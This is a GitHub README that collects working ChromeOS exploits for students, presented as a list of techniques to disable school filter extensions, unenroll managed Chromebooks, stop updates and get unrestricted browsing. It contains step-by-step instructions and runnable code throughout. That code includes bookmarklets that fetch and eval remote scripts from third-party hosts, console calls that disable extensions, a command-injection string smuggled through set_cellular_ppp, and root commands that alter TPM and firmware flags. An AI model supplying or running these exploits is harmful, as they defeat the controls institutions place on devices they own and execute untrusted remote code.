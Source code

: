 # Exploits And Hacks
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/discussions">here</a>

Note: Students to see the list of more exploits click on JPCMG [LTBEEF with Service workers and scroll down.
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Brandon and I forked this repo from <a href="https://github.com/3kh0/ext-remover">3kh0</a> in order to give updated and old exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of whack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Freeze extensions</summary>

  **DO NOT UPDATE YOUR CHROMEBOOK TO CHROME VERSION 115 OR ABOVE**

**Patched** **On** **Chrome** **Versions** **115** **And** **above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are intrested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhere/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit an a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the writeup, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners means you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Freeze extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>LTMEAT Flood</b> Freeze extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page lots of times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything and you're good to go. If it didn't work, try adjusting the number of open tabs. This is the LTMEAT Flood Method, and also unofficially called Alternate Method # 2. Enjoy a much longer life of LTMEAT!

**Not working?** Ensure you open a large set, but not too large, of extension tabs (_/generated_background_page.html or /manifest.json) for a permanent freeze.

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby LTMEAT Flood</b> Freeze extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook i used 800 extension page tabs as i feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tab in a new window, maybe waiting slightly longer this time, to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen, and a wait/exit page button" you did it right" But don't click either of the buttons. (if you want to do it fast you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the 1 extension page tab remaining.

</details>

<details>
<summary><b>LTVegan</b> Freeze extensions</summary>

1. find the biggest file for your blocker extension

2. open chrome://extensions/?id=IDHERE

3. CTRL+A to copy all of the code, then drag the copied text to the tabs bar. this may freeze your  chromebook a few times.

4. start clicking the chrome extension tab (chrome://extensions/?id=IDHERE ) a few times, then wait ( chromebook is currently frozen).

5. when your chromebook isn’t as frozen, right click the main.js tab and duplicate it.

6. click the “Allow access to file URLs” (multiple times for good measure) and the first tab should close itself. if BOTH tabs closed themselves, you did something wrong, or just try again.

7. you should be able to normally use your  Chromebook now. afaik you might be able to close the duplicated tab but I didn’t close it and it lasted for a long time.

</details>

<details>
<summary><b>Anesthesia</b> Freeze extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json or you can use <a href="https://robwu.nl/crxviewer/">Rob Wu's crxviewer</a> to find your extensions largest file.

2. Go to that page. and hit `Ctrl`+`P`. A print window shoudl show up, with a number of pages in the top right.

3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you can get that number, the longer the effect will last.

4 Hit reload. The page should start hanging.

5. Go to your extension's settings page. This is in `chrome://extensions`.

6. Duplicate your "printing" tab, and go back to your extension's settings page.

7. Flip any switch you can find there. Usually there'll be one titled "`Allow Access to File:// [URL]s`".

8. Presto! Go have fun on the (probably) unblocked web.

FAQ:
Where do I find my extension's manifest.json?
First find your extension's ID. This is a 32-character code that can be found in your extension's settings page, normally near or at the top. Then go to chrome-extension://your-32-char-id-goes-here/manifest.json

Credit to <a href="https://buymeacoffee.com/bypassi">Bypassi</a> for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hanged with printing.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**
  
HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: `javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()`

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Freeze extensions</summary>

**Dextensify is an exploit which lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/Dextensify.html">Dextensify.html</a>

Credit to <a href="https://ading.dev/">ading2210</a> for finding/Making this exploit

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this wont work if theres not a plugin in there.
3. Hit the start button then the `inspect` button, run basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit

</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

**Corkey does indeed include power washing the Chromebook, which wipes local data including everything under "My files," so I suggest you select everything you want to drag and back up to Google Drive if that's available for your account.**

**Chromebooks Only**

1. `Esc`+`Refresh`+`Power` and re-enroll (Enter recovery page) or you can just powerwash

2. log into your chromebook and immediately turn off wifi and do `refresh`+`power` to (instant restart)

3. Log back into your chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as a existing user.

4. Go to `chrome://extensions`, turn on wifi, and wait for your schools blocking extension to appear.

5. As soon as it appears turn off wifi and instant restart as fast as you can.

6. Log back in and go back to extensions and wait. If it says your blocking extension could be corrupted or doesnt appear at all then it worked (wait atleast a minute with a close watch incase it comes back)

7. If it didnt work repeat from step 1.

8. If it did work you could go onto anything

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 

1. Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)

2. go to <a href="https://chrome.google.com/webstorex">chrome.google.com/webstorex</a> and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)

3. press download, and it will work.

**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

<details>
<summary><b>Point-Blank</b> Scripts on extension pages</summary>

This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)

1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> <a href="https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js">if blocked</a> on your school chromebook.

2. Make a bookmark with the code there.

3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload (you have to actually have securly ofc)
 
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>.
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by 3kh0, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
<a href="https://dsc.gg/blue-hat-crew">https://dsc.gg/blue-hat-crew</a>

This works only for iBoss, and Blocksi, If you don't have one of these, use Blank3r or Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesnt work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>A Bypass For IBoss</b> Unblock websites that are blocked by IBoss</summary>

1. Firstly go over to your unblocked website you want to access. 

2. After visiting the website it should be blocked.

3. You want to turn off your wifi, then spamclick the blocked link  (not the url)

4. Then after spamclicking, turn on your wifi.

5. It should redirect you to "your connections been dissrupted" press reload.

6. Then you should be at the blocked website completely unblocked!!

(NOTE: THIS ONLY WORKS ON SOME WEBSITES)

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import onc` button.
11. Import the newly downloaded file.

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB Via Flags</b> Prevent Updates</summary>

This alt exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a chrome flag, you can convince your chromebook not to automatic update.

### Requirements
- Access to `chrome://flags`

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead.

2. Enable it and restart your device.

3. Open the Settings app.

4. Go to your Network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise this exploit won't work

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js


2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

<a href="https://github.com/CoolElectronics/sh1mmer">Official Repository</a>  

<a href="https://sh1mmer.me/">Official Website (INSTRUCTIONS)</a>

<a href="https://dl.osu.bio/">Raw Shims Download</a>

</details>

<details>
<summary><b>SH1mmer V111 → V113</b> Unenrollment</summary>
How to use SH1MMER on v111 → v113
(if you're willing to take the back cover off your Chromebook)

you'll only need to do this once, and it will let you use SH1MMER even after it's been completely patched



        1. Unplug everything, open the back panel, disconnect the battery to disable WP, plug in the charger
        2. boot into SH1MMER and use "Un-Enroll / Deprovision" (yes I know it will show an error, but that doesn't
        matter)
        (you will also need to run "Disable block_devmode" if you're using the old legacy version)
        3. go to the bash shell and run this command:
        /usr/share/vboot/bin/set_gbb_flags.sh 0x8090
        do not use "Reset GBB Flags" after this

        4. exit SH1MMER, unplug everything, reconnect the battery, reconnect the charger
        5. boot up, press CTRL + D to enter developer mode
        6. once it completes, use CTRL + ALT + SHIFT + R to powerwash
        7. after powerwash, immediately go into VT2 by pressing CTRL + ALT + F2 (→), login as "root" and run these commands:
        tpm_manager_client take_ownership
        cryptohome --action=remove_firmware_management_parameters
        if it fails, try downgrading to v110 if possible. if you can't, use E-Halycon instead.
        8. press CTRL + ALT + F1 (←), use CTRL + ALT + SHIFT + R to powerwash again
        9. profit

        NOTE: if you're on dedede, your WP method is probably different. look your model up online to find the WP
        method.

</details>

<details>
<summary><b>CryptoSmite</b> Unenrollment</summary>

**CryptoSmite** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. It was found by FWSmasher and released on **March 9th, 2024**.

**This exploit has been patched since Chrome OS 120.**

### Finding Kernver
If you're on v120 or higher, you need to downgrade in order to use CryptoSmite. To do this, you first need to check your `kernver=` in Recovery Mode.

1. Boot into Recovery Mode
   - Hold ESC + Refresh + Power for 2 or 3 seconds.
   - You should be on an "Insert Recovery Media" or "Let's step you through the recovery process" screen.
2. Press TAB and look at the last digit of the `kernver=` line

- `kernver=` ends with a 2! <br />
Congratulations, you can downgrade to v119 or lower! Follow the instructions at [Downgrading *Change versions*](#downgrading-change-versions) on how to downgrade.

- `kernver=` ends with a 3! <br />
Sorry, you can't downgrade to v119 or lower. Wait for a new unenrollment exploit or do a <a href="https://blog.darkn.bio/blog/3-the-tsunami">**dangerous** hardware modification</a>.

### Using CryptoSmite
1. Download a SH1MMER Prebuilt image here: <a href="dl.darkn.bio">https://dl.darkn.bio/SH1mmer/Prebuilt/</a>
2. Disable OS verification *(blocked or not, doesn't matter)*, and boot into the shim.
3. Navigate to Payloads and navigate to CryptoSmite using the arrow keys, then press `Enter`.
4. Type in `Y` then press enter, and it'll automatically reboot upon completion.
5. Proceed through the setup partially till you get to the Add Account Screen.
   - If you see an update prompt, reboot then press `CTRL + ALT + E` on the Wi-Fi screen.
     - This *should* allow skipping the update, or make it not appear at all.
6. Powerwash the Chromebook at the "Add Account" screen. Afterwards, it'll be fully unenrolled.

### Further Reading
- <a href="https://github.com/FWSmasher/CryptoSmite">Repository</a>  
- <a href="https://blog.coolelectronics.me/breaking-cros-2/">Writeup</a>
- <a href="https://exploitingchromium.blogspot.com/">Official Blogspot</a>

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a linux PC or VM. WSL is not guaranteed to work

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 update patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point you need to start spamming the E key on your keyboard. It will begin a 5 minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5 minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the usb around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Old Weird Unenrollment</b> Unenrollment</summary>

if you have a chromebook that's on a version below 101  
(check `chrome://version` to see)
press ctrl+alt+t and type this in            


`set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'`

                                                         
           then powerwash and it will unenroll           
                       cool right                        

    to re-enroll, open a bash shell and type these in one by one
```
sudo -i
```

```
vpd -i RW_VPD -s check_enrollment=1
```

```
echo "fast safe" > /mnt/stateful_partition/factory_install_reset
reboot
```

</details>

<details>
<summary><b>TerraOS</b> Linux from RMA shim</summary>

1. Clone the <a href="https://github.com/r58Playz/terraos">TerraOS repository</a>.

Run `git clone https://github.com/r58Playz/terraos.git` in a terminal.

2. Create a build directory in the cloned directory.

3. Run `bash ../scripts/build_stage1.sh <defconfig>` in the terminal.
- Use terraos as the defconfig if building for x86_64 Chromebooks.
- Use `terraos_jacuzzi` as the defconfig if building for `jacuzzi` board Chromebooks.
- Support for `jacuzzi` boards is experimental and may not work.

4. Run bash ../scripts/build_aur_packages.sh in the terminal.

5. Run
`bash ../scripts/build_all.sh <shim.bin> <board_recovery.bin>
<reven_recovery.bin>`
in the terminal, replacing `<shim.bin>` with the path to a shim for your board, `<board_recovery.bin>` with the path to a recovery image for your board, and `<reven_recovery.bin>` with the path to a Chrome OS Flex recovery of the same version. This places a built bootloader image, SquashFS and tarballs of the arch RootFS, a bootloader image with the arch Rootfs, a bootloader image with TerraOS Chrome OS, and a bootloader image with both the arch RootFS and TerraOS Chrome OS in the build directory.

The default arch RootFS user and password are `terraos`.

</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's <a href="https://github.com/ading2210/shimboot">README</a>**

Further reading:
- <a href="https://shimboot.ading.dev/">https://shimboot.ading.dev/</a>
- <a href="https://github.com/ading2210/shimboot">https://github.com/ading2210/shimboot</a>

Credit to <a href="https://ading.dev/">vk6</a> for this exploit

</details>

<details>
<summary><b>Skiovox</b> Unrestricted browsing</summary>

**Patched on chrome versons 120+**

### What is it?

An exploit that allows for browsing within a completely unblocked Chrome
browser. It works on ChromeOS 118 and a wide range of previous versions.
- Skiovox utilizes a bug in kiosk apps
- Very similar to a bug from 3 years ago
Within the unblocked browser, you can
- Install extensions
- Bypass pretty much all blocks
- Do whatever the honk you want

### How to use it

Bypassi made a wonderful slideshow for you goof balls to follow, view using any of the links below!

- <a href="https://www.skiovox.com/">https://www.skiovox.com/</a>
- <a href="https://skiovox.netlify.app">https://skiovox.netlify.app</a>
- <a href="https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview">https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview</a>
- <a href="https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx">https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx</a>

</details>

<details>
<summary><b>Skiovox for v120</b> Unrestricted browsing</summary>

**Skiovox Method "120"**

"If you see that you don't have a sign in as existing user button, click Ctrl+Alt+Shift+R then click cancel" then continue.

1. Sign out of your chromebook.

2. Turn off your wifi.

